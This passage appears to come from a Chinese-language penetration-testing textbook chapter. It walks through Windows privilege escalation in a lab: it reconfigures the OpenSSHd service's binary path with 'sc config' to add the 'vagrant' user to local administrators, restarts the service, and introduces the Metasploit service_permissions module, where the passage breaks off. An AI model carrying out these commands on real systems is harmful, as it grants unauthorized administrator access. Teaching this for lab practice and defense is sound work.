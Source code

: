    图 8.16 – 服务参数

1.  我们可以修改`BINARY_PATH_NAME`以执行任意命令。在我们的案例中，我们将把`vagrant`用户添加到本地管理员组。这可以通过运行以下命令来实现：

    `sc config "OpenSSHd" binPath= "net localgroup administrators vagrant /add"`

    如以下截图所示，如果操作成功执行，`vagrant`用户账户将被添加到本地管理员组，并应具备管理员权限：

    ![图 8.17 – 修改二进制路径](img/B17389_08_017.jpg)

    ](Images/B17389_08_017.jpg)

    图 8.17 – 修改二进制路径

1.  在修改二进制路径参数后，我们需要重新启动 OpenSSH 服务。这可以通过在 Windows 命令行中运行以下命令来完成：

    `sc stop OpenSSHd`

    `sc start OpenSSHd`

1.  我们可以通过在 Windows 命令行中运行以下命令来验证`vagrant`用户账户是否已添加到本地管理员组：

    `net localgroup administrators`

    如以下截图所示，`vagrant`用户账户现在是本地管理员组的成员，并且具有管理员权限：

    ![图 8.18 – 本地管理员组成员](img/B17389_08_018.jpg)

    ](Images/B17389_08_018.jpg)

    图 8.18 – 本地管理员组成员

1.  这个过程也可以通过使用一个名为`exploit/windows/local/service_permissions`的 Metasploit 模块来自动化。我们可以通过在 Metasploit 控制台中运行以下命令来加载该模块：

    `use exploit/windows/local/service_permissions`

    加载模块后，我们需要配置模块选项。在本例中，我们需要设置默认的 payload、`LHOST`、`LPORT` 和会话 ID 选项，如以下截图所示：

    ![图 8.19 – 服务权限模块选项    ](img/B17389_08_019.jpg)
